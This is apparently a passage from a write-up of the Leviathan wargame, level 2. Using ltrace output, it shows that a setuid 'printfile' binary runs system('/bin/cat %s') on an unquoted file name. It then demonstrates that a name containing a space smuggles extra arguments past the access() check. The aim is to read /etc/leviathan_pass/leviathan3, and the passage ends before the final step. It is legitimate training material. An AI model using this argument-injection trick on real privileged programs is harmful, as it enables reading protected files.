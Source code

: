 My first approach here was to debug via gdb an jump over the check. It worked but I learned here the following: "You can only debug a setuid or setgid program if the debugger is running as root. The kernel won't let you call ptrace on a program running with extra privileges." (https://unix.stackexchange.com/questions/15911/can-gdb-debug-suid-root-programs)

So you can skip the checking, but the program isn't runned with the SUID rights.

Let's check the program with ltrace:
```
leviathan2@gibson:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x80491e6, 2, 0xffffd5d4, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                                                      = -1
puts("You cant have that file..."You cant have that file...
)                                                               = 27
+++ exited (status 1) +++
leviathan2@gibson:~$
leviathan2@gibson:~$ mkdir /tmp/dir
leviathan2@gibson:~$ cd /tmp/dir
leviathan2@gibson:/tmp/dir$ touch test
leviathan2@gibson:/tmp/dir$ ltrace ~/printfile test
__libc_start_main(0x80491e6, 2, 0xffffd5b4, 0 <unfinished ...>
access("test", 4)                                                                                = 0
snprintf("/bin/cat test", 511, "/bin/cat %s", "test")                                            = 13
geteuid()                                                                                        = 12002
geteuid()                                                                                        = 12002
setreuid(12002, 12002)                                                                           = 0
system("/bin/cat test" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                           = 0
+++ exited (status 0) +++
leviathan2@gibson:/tmp/dir$
```

The program is building a command string with cat and executes it. We can do the following to trick this execution:
```
leviathan2@gibson:/tmp/dir$ touch "test test"
leviathan2@gibson:/tmp/dir$ ls -al
total 504
drwxrwxr-x    2 leviathan2 leviathan2   4096 Apr  4 15:51 .
drwxrwx-wt 3420 root       root       507904 Apr  4 15:51 ..
-rw-rw-r--    1 leviathan2 leviathan2      0 Apr  4 15:51 test test
leviathan2@gibson:/tmp/dir$ ltrace ~/printfile "test test"
__libc_start_main(0x80491e6, 2, 0xffffd5a4, 0 <unfinished ...>
access("test test", 4)                                                                           = 0
snprintf("/bin/cat test test", 511, "/bin/cat %s", "test test")                                  = 18
geteuid()                                                                                        = 12002
geteuid()                                                                                        = 12002
setreuid(12002, 12002)                                                                           = 0
system("/bin/cat test test"/bin/cat: test: No such file or directory
/bin/cat: test: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
```
